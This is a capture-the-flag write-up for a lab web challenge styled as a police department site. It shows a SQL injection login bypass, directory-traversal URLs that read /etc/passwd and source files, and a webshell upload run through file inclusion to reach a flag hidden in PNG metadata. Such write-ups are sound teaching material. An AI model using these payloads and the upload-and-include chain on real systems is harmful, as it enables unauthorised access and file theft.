






# Checking the site

The website is the Racoon City Police Department's website.



The challenge description suggests making a `tea` somehow.

# Login

There is an SQL injection on the login page. Using the standard `' OR 1=1 --` in the username and password instantly let us in.



The error messages are also verbose if the bypass is not achived instantly.



After logging in, there is a case upload and gallery functionality.

# Gallery

Trying to open anythin in the gallery results in an error message, but the `file` parameter is visible.

The paramemter is vulnerable to directory traversal, and any file can be viewed with it, like `/etc/passwd` or the `index.php` (path from SQL error message as well).

```
http://10.10.1.11:65304/pages/gallery.php?file=../../../../../etc/passwd
http://10.10.1.11:65304/pages/gallery.php?file=../../../../../var/www/html/index.php
```



It is visible that the file is not read and printed, but included, as the php is executed and not printed.

# Cases

This is a file upload functuonality. You can upload a file, usually without restriction.

The [shell.txt](workdir/shell.txt) webshell was uploaded to an unknown location.

# Exploit

The challenge description mentions `cases directory`. Using the gallery functionality, the `shell.txt` can be found by stepping 1 directory up a few times.

```
http://10.10.1.11:65304/pages/gallery.php?file=shell.txt"
http://10.10.1.11:65304/pages/gallery.php?file=../cases/shell.txt"
http://10.10.1.11:65304/pages/gallery.php?file=../../cases/shell.txt"
http://10.10.1.11:65304/pages/gallery.php?file=../../../cases/shell.txt"
```



Using the webshell, the flag can be found in [/root/Wesker.png](workdir/Wesker.png).



# Loot

The flag is inside the comment of the png.

```bash
exiftool Wesker.png
```

```
ExifTool Version Number         : 12.76
File Name                       : Wesker.png
Directory                       : .
File Size                       : 174 kB
File Modification Date/Time     : 2024:09:30 10:48:52+02:00
File Access Date/Time           : 2024:09:30 10:49:00+02:00
File Inode Change Date/Time     : 2024:09:30 10:48:52+02:00
File Permissions                : -rwxrwxrwx
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 493
Image Height                    : 408
Bit Depth                       : 8
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Pixels Per Unit X               : 3780
Pixels Per Unit Y               : 3780
Pixel Units                     : meters
Comment                         : CQ24{Th1sR3s1d3nt1snt3v1L}
Image Size                      : 493x408
Megapixels                      : 0.201
```

# Flag

CQ24{Th1sR3s1d3nt1snt3v1L}

# Source

The source was exfiltrated and can be found in [www.tar.gz](workdir/www.tar.gz).